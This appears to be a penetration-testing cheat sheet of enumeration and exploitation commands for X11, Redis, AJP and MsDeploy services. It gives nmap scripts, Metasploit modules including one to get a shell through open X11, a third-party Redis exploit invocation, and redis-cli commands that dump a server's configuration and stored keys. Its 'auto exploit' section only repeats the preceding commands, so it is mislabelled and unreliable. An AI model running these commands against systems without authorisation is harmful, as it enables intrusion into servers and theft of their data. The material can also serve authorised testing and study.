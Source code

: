 ### Port 6000 - X11

```bash
# enumeration
nmap -sV --script x11-access -p 6000 $IP
msf> use auxiliary/scanner/x11/open_x11

# Remote Desktop View Way from:
https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref

# Get Shell
msf> use exploit/unix/x11/x11_keyboard_exec

```

### Port 6379 - Redis

```bash
# Enumeration
nmap --script redis-info -sV -p 6379 $IP
msf> use auxiliary/scanner/redis/redis_server

https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis

# redis-tools
sudo apt-get install redis-tools
redis-cli -h 192.168.0.24
192.168.0.24:6379> info
192.168.0.24:6379> CONFIG GET *
192.168.0.24:6379> keys *
192.168.0.24:6379> get 351115ba5f690fb9b1bdc1b41e673a94 #This is a key list on the last command

# auto exploit
redis-cli -h 192.168.0.24
192.168.0.24:6379> info
192.168.0.24:6379> CONFIG GET *
192.168.0.24:6379> keys *
192.168.0.24:6379> get 351115ba5f690fb9b1bdc1b41e673a94 #This is a key list on the last command

```
### Port 8009 - Apache JServ Protocol (AJP)

* https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/
```bash
# Enumeration
nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 $IP

```
### Port 8172 - MsDeploy
Microsoft IIS Deploy port
```bash
$IP:8172/msdeploy.axd
```
